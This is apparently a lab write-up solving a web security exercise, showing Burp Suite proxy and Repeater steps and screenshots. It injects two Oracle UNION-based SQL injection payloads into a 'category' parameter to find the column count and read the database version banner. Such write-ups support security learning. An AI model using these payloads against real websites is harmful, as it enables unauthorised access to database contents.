 ```yaml
---
custom_edit_url: null
sidebar_position: 3
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/dd519b8d-f486-46b3-af19-2d8b67fd6585)

Let's filter for `Accessories`.

![2](https://github.com/Knign/Write-ups/assets/110326359/a7dacc13-cdf2-4c76-9d94-4f675aafb2da)

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.

![3](https://github.com/Knign/Write-ups/assets/110326359/f8925d03-680c-4ebb-896f-6c6157aebc7a)

Let's forward the request to the `Repeater` for further modification.

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT 'test','test' FROM dual--
```

![4](https://github.com/Knign/Write-ups/assets/110326359/2787b997-6902-4310-93c7-7bc0faf44ee8)

Now that we know there are two columns, we can set the `category` parameter to the following:

```
' UNION SELECT BANNER, NULL FROM v$version--
```

![5](https://github.com/Knign/Write-ups/assets/110326359/d176ef09-8c9d-43d7-8e4c-10d2cf860d01)

We have solved the lab.

![6](https://github.com/Knign/Write-ups/assets/110326359/0b363cc4-f88f-4735-92b6-bc67166545ef)
